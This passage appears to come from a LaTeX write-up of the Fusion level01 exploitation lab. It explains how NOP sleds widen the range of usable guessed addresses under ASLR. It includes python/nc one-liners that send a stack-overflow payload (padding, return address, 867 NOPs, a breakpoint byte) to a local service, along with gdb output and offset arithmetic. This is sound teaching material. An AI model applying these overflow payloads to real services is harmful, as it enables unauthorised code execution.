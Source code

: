 This code reuse technique relied on ASLR not being fully applied
to the binary, which may not always be the case. Another option,
though less elegant, is to use a NOP sled. If we're stuck guessing
addresses our shellcode is at, it's possible to use a NOP sled
to increase the probability that a guessed address would lead
to execution of our shellcode, instead of a segfault. Essentially,
we prepend our shellcode with bytes which, when interpreted as
instructions, will not affect the execution of our shellcode.
This way instead of jumping precisely to the beginning of our
shellcode, we only have to jump to some range of bytes immediately
before our shellcode. This is easiest to demonstrate with the standard
NOP instruction, which is the single byte \texttt{0x90}, but many combinations
of instructions can serve as nops. The primary downside to this technique
is that we're still making guesses of the address, but it can be very
useful in combination with other things, such as a partial information leak.

\begin{lstlisting}
fusion@fusion:~$ sudo rm /core; python -c 'print "GET " + "A"*139 + "\x94\x1a\x8d\xbf" +  " HTTP/1.1" + "\x90"*867 +"\xcc"' | nc localhost 20001
fusion@fusion:~$ sudo gdb -q --core /core                                                                                                      [New LWP 2047]
Core was generated by `/opt/fusion/bin/level01'.
Program terminated with signal 5, Trace/breakpoint trap.
#0  0xbf8d1df8 in ?? ()
(gdb) q
fusion@fusion:~$ sudo rm /core; python -c 'print "GET " + "A"*139 + "\xf7\x1d\x8d\xbf" +  " HTTP/1.1" + "\x90"*867 +"\xcc"' | nc localhost 20001
fusion@fusion:~$ sudo gdb -q --core /core                                                                                                      [New LWP 2109]
Core was generated by `/opt/fusion/bin/level01'.
Program terminated with signal 5, Trace/breakpoint trap.
#0  0xbf8d1df8 in ?? ()
\end{lstlisting}

From our code snippet, we know that our string is being read into
a 1024-byte buffer. Some simple math (1024 - 157 = 867) lets us determine
how many spare bytes we have to work with, assuming we only overflow
up to the return address, have the required ``GET" and ``HTTP/1.1",
and have the 1-byte breakpoint trap as our shellcode. So, we
just put that many NOP instructions (as they are 1 byte) before our
breakpoint trap. As demonstrated in the code snippet, this gives us
an 867-byte window of valid guesses.
For this execution, anything guessed between \texttt{0xbf8d1a94}
and \texttt{0xbf8d1df7} would lead to proper execution of our payload.
Taking the average, we'd want to try an address of \texttt{0xbf8d1c45}.
This way if the ASLR in another instance mapped things to within 433 bytes
of this instance, our exploit would still execute our breakpoint trap payload.

